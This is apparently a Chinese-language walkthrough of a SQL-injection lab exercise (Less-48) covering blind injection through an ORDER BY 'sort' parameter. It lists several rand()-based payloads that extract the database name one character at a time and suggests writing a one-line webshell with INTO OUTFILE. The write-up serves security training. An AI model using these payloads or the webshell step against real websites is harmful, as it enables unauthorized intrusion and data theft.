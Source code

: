 # GET-Error based Blind -Numeric -ORDER BY CLAUSE  
TAG：GET型注入、可控的Order by、盲注  
## 漏洞利用  
![less48_1](images\less48_1.png)  
此less关闭了报错信息的回显，报错注入无法利用，可以考虑盲注  
![less48_2](images\less48_2.png)  
  
使用rand()函数进行语句的构造  
查询数据库名的语句  
Payload:```?sort=rand(ascii(left(database(),1))=117)```  
![less48_3](images\less48_3.png)  
  

Payload:```?sort=rand(ascii(left(database(),1))=116)```  
![less48_4](images\less48_4.png)  
  
Payload:```?sort=rand(ascii(left(database(),1))=115)```  
![less48_5](images\less48_5.png)  
  
从对数据库名的探测来看，编写脚本探测盲注结果比较困难，改用基于时间的注入还很容易受到网络环境波动的影响  
可以考虑使用into outfile写入一句话小马    